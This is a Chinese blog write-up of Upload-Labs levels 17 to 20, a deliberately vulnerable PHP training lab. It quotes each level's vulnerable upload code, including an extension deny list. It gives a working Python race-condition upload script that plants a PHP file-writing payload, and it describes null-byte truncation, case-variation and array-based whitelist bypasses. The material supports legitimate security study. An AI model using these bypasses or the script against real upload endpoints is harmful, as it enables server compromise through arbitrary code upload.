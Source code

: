 ```yaml
---
title: Upload-Labs的最后几道题
categories: ['DROPS']
tags: ['文件上传漏洞']
cover: 'https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201119174619.jpg'
date: 2020-11-19 08:47:19
---
```



## Pass-17

​	（windows环境，php版本5.2.17，题号是18题）

源码：

```php
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

​	思路和前面的一样，获取文件信息，移动文件到**upload**文件夹，第12行使用了白名单验证，多了第14行的`rename`函数，看名称就是重命名的函数，所以我们可以在重命名之前访问我们上传的文件，所以这题用到了**上传竞争**，使用`python`脚本不断的向服务器上传文件，然后访问上传的文件，上传的文件中有一句代码`<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>`这段代码执行以后，会创建一个名为`shell.php`里面有一句`<?php phpinfo();?>`的文件。

​	脚本代码

```python
#coding=utf-8
import requests
from multiprocessing import Pool
def CompeteUpload(list):
    url="http://upload-labs/Pass-18/index.php"   #上传页面
    geturl="http://upload-labs/upload/233.php"	 #访问上传文件
    file={'upload_file':('233.php',"<?php fputs(fopen('shell.php','w'),'<?php phpinfo();?>');?>",'image/jpeg')}
    data={'submit':'上传'}
    r=requests.post(url=url,data=data,files=file)
    #print "test upload...."
    r1=requests.get(url=geturl)
    if r1.status_code==200:
        print ("upload success!")
if __name__=="__main__":
    pool = Pool(10)
    pool.map(CompeteUpload, range(10000))
    pool.close()
    pool.join()
```

​	第一次用python的我在这里知道了`pip`。这道题因为要不断的上传和访问文件，所以对在线靶场不友好，所以才选择了本地环境解题。完工

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119090033.png)



## Pass-18（失手）

​	18题失手了没有思路，如果使用`include.php`文件包含的话还可以，看了看网上大部分的博客都是敷敷衍衍过去的，找到了一篇稍微有点思路的，使用的是`apache2.2.x的解析漏洞`，这个漏洞的思路就是，apache服务器在解析有多个后缀名的文件时，从最后一个开始向前扫描，如果不认识就跳过，直到遇到一个认识的文件后缀，就把这个文件以这个能识别的后缀解析。

[Apache文件解析漏洞](https://blog.csdn.net/qq_32434307/article/details/79480316)

[apache httpd多后缀解析漏洞复现](https://www.cnblogs.com/yuzly/p/11226377.html)

​	源码中还有一个可以突破的点是同样使用了**重命名函数**，所以应该还是可以使用竞争上传访问得到，但是使用了白名单验证，我实在是没招了所以~~先摸为敬~~。



## Pass-19

（windows环境，php5.2.17，magic_quotes_gpc=Off）

源码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

​	源码第七行使用了**POST**来接受文件的命名，前面有类似题的是使用了**0x00截断上传**，后面也同样是`move_uploaded_file`移动文件的函数，还使用了黑名单验证，方法就很明确，使用**截断上传**。别忘了截断上传需要的特定条件：php版本需要低于`5.3.29`、`magic_quotes_gpc`需要为关闭状态。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119164220.png)

​	同样是命名为`phpa`方便在十六进制表里修改为`00`

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119162729.png)

​	打开图片把url链接`http://upload-labs/upload/upload-19.php�`修改一下即可。完工

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119164458.png)

​	其实这道题还有一个思路，因为题目使用了**黑名单验证**，分析源码没有设置大小写过滤，所以也可以使用大小写方法通过如`Php`，不演示了。



## Pass-20

（LInux环境，php7.2.21）

源码：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

​	这道题使用了`MIME`验证和白名单验证。先看第10行使用了`三目运算符`判断`$_POST['save_name']`是否为空，若为空则执行`:`前获取上传文件的名称，若不为空则获取POST中的`save_name`。第11行使用了`is_array`函数判断是否是一个数组，然后使用`explode`截断文件名转换小写并返回数组。也就是说，如果我们POST中的`save_name`是个数组的就可以跳过11行的判断。15行使用`end`函数获取数组中的最后一个元素用于后缀验证。20行把文件名进行拼接：数组**第一个**元素+数组元素**总数-1**的那个元素。

所以我们可以构造一个这样的数组用于绕过：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119170734.png)

​	数组[2]用于绕过白名单，文件名为：`数组[0].数组[1]`，但是数组[1]是空的所以只剩下`数组[0].`（后面有个点）

​	别忘了还要绕过**MIME**

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119172340.png)

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201119172415.png)

完工

## 最后

​	Upload labs的20道题大部分完成了，有两道题没完成，但是也学到了不少东西，这些天再抽空写一个总结吧。射射观看。